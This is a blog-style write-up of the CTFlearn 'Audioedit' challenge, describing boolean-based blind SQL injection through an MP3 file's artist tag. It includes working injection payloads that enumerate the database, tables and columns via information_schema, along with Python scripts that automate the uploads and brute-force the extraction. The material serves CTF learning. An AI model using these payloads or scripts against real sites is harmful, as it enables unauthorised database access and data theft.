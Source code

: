 ```yaml
---
layout: post
title:  "Audioedit CTFLearn Writeup"
date:   2020-09-18 16:25:10 +0545
author: machinexa
image: /writeups/assets/images/ctflearn_audioedit_homepage.png
category: Writeups
---
```


The CTF was terribly insane blind SQLi. I started in morning,  lost my entire day on simple mistakes and got real frustated when doing the challenge. The URL was [https://web.ctflearn.com/audioedit/](https://web.ctflearn.com/audioedit/). I received this challenge in night from my friend **Jokr**.So, lets get started.

# Finding the Injection
As its name suggest, it takes `.mp3` file and edits it. So, we have a file upload which leads to edit page with unique generated filename. I tried playing with file upload. Eventually, it lead me to nowhere and i assumed file upload was secure. So, what to do then. Well, it took me sometime to realize the file was being fetched from database. The parameter looked like this: [?file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3](https://web.ctflearn.com/audioedit/edit.php?file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3)  

Though he said SQLi isnt here still I tried SQL injection and injecting a quote, i  got error **"Error fetching audio from DB"** which confirmed the vulnerability.

![Error String](/writeups/assets/images/ctflearn_audioedit_errorpage.png)

Trying SQLi for sometime again failed me. It wasnt working for some reasons (not because of rabbit). Later, injecting `"` gave me same error as `'`  which means its not vulnerable. I took some caffeine and started thinking where could i find possible attack vector as i could only upload `.mp3`. 

Later he gave a hint that SQLi is in exif metadata. Also, `exiftool` didnt work for mp3 file, so i had to find something different. The module `python3-mutagen` is a module for adding tags in mp3 which provided `mid3v2` a perfect cmdline script for the situation.

# Knowing the Injection
First, i confirmed the vulnerability by adding a single quote (and by testing double quote). This command injects author tag in mp3: `mid3v2 -a "' or '" testing.mp3`. I got 0 in author response which indicates condition evaluated to False. Since, running program, uploading it and checking condition is lengthy, i used `Burpsuite` which was my second mistake.  

![Burp Request](/writeups/assets/images/ctflearn_audioedit_burprequest.png)

I tried sending some advanced payloads like `' or 1=1 or '` and `' and 1=1 and '` to see how it behaves. Unfortunately, it was throwing error. Each time i tried something new, it gave a error. One more thing to notice is that sending file content with same text but entirely different extension caused **File Exist** error to be thrown. Mine frustation slowly increased with time, later i found out it was because i directly edited the response *(which i should never have).*

I tried to make a python3 script to upload the file and directly give me response which cost me around 1-2 hour. I used http instead of https which caused error. Finally i have a script that does automatically does everything, i just have to type the payload. Here's a small portion: 
```python
url = "https://web.ctflearn.com/audioedit/submit_upload.php"
while True:
    s = requests.Session()
    multipart_data = MultipartEncoder(
        fields = {
            'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
        })
    headers = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': multipart_data.content_type
        } 
    def setcmd():
        command = 'mid3v2 -a "' + get_random_string(4) + input("Enter SQLi payload: ") + '" testing.mp3'
        print(command)
        system(command)
    setcmd()
    response = s.post(url, data=multipart_data, headers=headers)
    soup = BeautifulSoup(response.text, 'html.parser')
    for small in soup.find_all('small'):
        print(small)
``` 
<br>
Finally i found out what i was exploiting was **Boolean based Blind SQLi**. The injection point was `' or SQLCOMMAND or '`. For futher confirmation, i did this which i thought would eval to true and did evaluate to true `' and 2=2 or 99=99 or '`.
# Exploing SQLi Blindly
The insanity starts here. I DM'ed **Blindhero**, another of my nice mentor/friend for some tips on how to get dbms, tables.. He told me to use `SELECT CASE WHEN` which works on `Sqlite`. Unfortunately, it didnt work as it was `MySQL`. He also said about how to get database and so on. Now, i started by very basic information gathering: `' and 2=2 or (SELECT substring(version(),1,1)=5) or '` which gave 1 which is true. 

Then, moving forward to finding current database which was not easy but ok. Since, it was boolean based blind doing it by hand would take ages. So, i coded some exploit. Crafting query took time but eventually this `' and 2=2 or (SELECT substr(database(),1,1)='a')` returned true. Here's some of my code with explanation *(shitty code)*.
```python
allchar = 'abcdeghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
E = SQLExploit()
while True:
    for i in allchar:
        s = requests.Session()
        E.reset()
        time.sleep(0.2)
        if E.exploitdb(i) == True:
            print("Breaked loop")
            break
        else:
            continue
``` 
<br>
E is a **SQLExploit** object which i will talk later, and tries all the character while `reset()` function opens the mp3 file again. I ran into problem where first query ran successfully while second errored out in while loop. This again wasted my 10m along with giving me some irritation. The SQLExploit class looks like this: 
```python
class SQLExploit:
    def __init__(self):
        self.md = ""
        self.hd = ""
        self.text = ""
        self.pos = 1

    def reset(self):
        self.md = MultipartEncoder(
            fields = {
                'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
            }
        )
        self.hd = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': self.md.content_type
        }
    def setcmd(self, character):
        #Finds database
        try:
            command = 'mid3v2 -a "' + get_random_string(5) +   "' and 2=2 or (select substring(database()," + str(self.pos) + ",1)='" + character +"') or '" + '" testing.mp3'
            print(command)
            system(command)
        except Exception as E:
            print(E)
```
<br>
`self.md` and `self.hd` are multipart data and headers respectively. `reset()` opens the mp3 file while `get_random_string(5)` gets random string of length 5 as it name says. `system()` is short of `os.system()` and position is `self.pos` is position of substr. Since, we got 1st postion as 'a', we need to increment it. `self.text` is for storing name of database found.

So, having everything we need lets start the exploit. Also, some part was slightly modified in this code which i wont show as its not necessary.
Now, lets run the exploit. 

![Database Audioedit](/writeups/assets/images/ctflearn_audioedit_database.png)

Looks nice right? Lets go for table. I asked him about how to find tables and hinted about information_schema. I created similar database and table in localhost and came up with this:  
 `(SELECT table_schema, table_name FROM information_schema.tables where table_schema = 'audioedit' and table_name LIKE 'a%' limit 1;)`

Unfortunately, its hard to include in payload thats why i did `substr()` method. Also, debugging my payload and improving it i get:     
`' and 2=2 or (SELECT substr(table_name,1,1) FROM information_schema.tables where table_schema = 'audioedit' limit 1)='h' or '`    
`setcmd()` function is sligtly modifed and exploiting gives me `audioedit` which is same as database name.

Ah, i was tired and irritated. Took some **caffeine** again and got started. For numbers of columns in that table, querying information schema i used this:   
`' and 2=2 or (SELECT substring(count(\*),1,1) FROM information_schema.columns WHERE table_name = 'audioedit')=1 or '`  
<br>
So, columns number are 5, now what. Now, this part was very tough to debug. I just went mad trying to find out what was the problem. It took about 3 hours to find what was the problem. I crafted about 4-5 payloads, none of them were working.
```sql
' and 2=2 or (SELECT substr(column_name,1,1) FROM information_schema.columns where table_name='audioedit' limit 1 OFFSET 1)='a' or '
' and 2=2 or (SELECT((SELECT count(\*) FROM information_schema.columns WHERE table_name = 'audioedit' and column_name LIKE 'xx%')=1)) or '
' and 2=2 or (select substr(column_name,1,1)='y' from information_schema.columns where table_name = 'audioedit' limit 1,1) or '
```
<br>
First i thought `limit` was blocked as every payload used it. Trying simpler payloads like `' and 2=2 or (select version() like '5%' limit 1) or '` did work. I got to a point when payload was large, then i added `()`  which caused error. Ah, the spaces are problem. Why the hell did i used `2=2`. Shit. Also, i reduced `get_random_string()` to length of 2. Finally it worked like a charm and got the first column name, then second, then third. 

![Random Column name](/writeups/assets/images/ctflearn_audioedit_random.png)

I did some SQL magic in column **File** and found out the flag was in file `supersecretflagf1le.mp3`. So, i used the file parameter to reference that file and unfortunately i didnt get flag. 

# Audio Editing
Its the final step, setting visualization to sonogram and editing some other stuffs, i get the flag embedded in image.

![Random Column name](/writeups/assets/images/ctflearn_audioedit_flag.png)


# Takeaway 

* Always check for lenth of SQL query you can inject
* Pay attention to smaller details to prevent error
* Never edit a file by hand in `Burpsuite`

